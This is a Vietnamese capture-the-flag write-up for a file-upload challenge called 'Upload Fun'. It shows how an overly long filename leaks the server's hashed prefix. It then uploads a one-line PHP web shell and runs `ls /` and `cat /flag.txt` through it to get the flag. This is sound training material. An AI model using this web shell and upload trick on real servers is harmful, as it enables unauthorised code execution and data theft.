









# Upload Fun



## Solution

Truy cập vào URL được cung cấp, chúng ta sẽ thấy trang web như sau:



Theo như tên challenge và đọc qua đoạn code trên, chúng ta có thể hiểu rằng mình cần tải lên webshell, từ đó tìm đọc được flag.

Tuy nhiên, thứ gây trở ngại ở đây là tên file tải lên được nối thêm chuỗi hash của flag với địa chỉ IP cộng thêm dấu `_` vô phía trước:



Mình loay hoay tìm cách khai thác nhưng không thành công. Thật tuyệt vời, anh mentor của mình đã phát hiện ra chỉ cần đặt tên file thật dài là sẽ leak được phần hash.

Để bắt đầu thực hiện, mình thêm phần bên dưới vào request để có thể tải lên file:

```text
Content-Type: multipart/form-data; boundary=---------------------------735323031399963166993862150

-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="f"; filename=""
Content-Type: text/plain


-----------------------------735323031399963166993862150--
```

Chú ý đổi request method sang `POST`:



Tiếp đến mình sẽ đặt `filename` là chuỗi siêu dài:

```text
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Gửi request đi, mình nhận được response chứa warning:




Từ đó, mình biết chuỗi được nối vào trước tên file là `331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_`.

Công việc tiếp theo là chỉ cần tải lên webshell để thực hiện RCE đọc flag thôi.

Mình sẽ đổi `filename` thành `shell.php` và thêm đoạn code PHP bên dưới:

```php
<?php system($_GET['cmd']); ?>
```

Gửi request tải file lên thành công:



Tiếp đến, cần truy cập tới file PHP vừa tải lên để RCE. Mình gửi GET request tới `/uploads/331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_shell.php?cmd=ls /` để xem có file nào chứa flag ở `/` không. Chú ý encode URL `ls /` của tham số `cmd`, bên dưới mình sử dụng extension Hackvertor để encode.

Mình xác định được ở `/` có chứa file `flag.txt`:



Cuối cùng, để đọc được file `flag.txt`, mình sử dụng `cat /flag.txt`.

Yahh, lấy được flag rồi:



## Flag

`wctf{h0w_d1d_y0u_gu355_th3_f1l3n4me?_7523015134}`
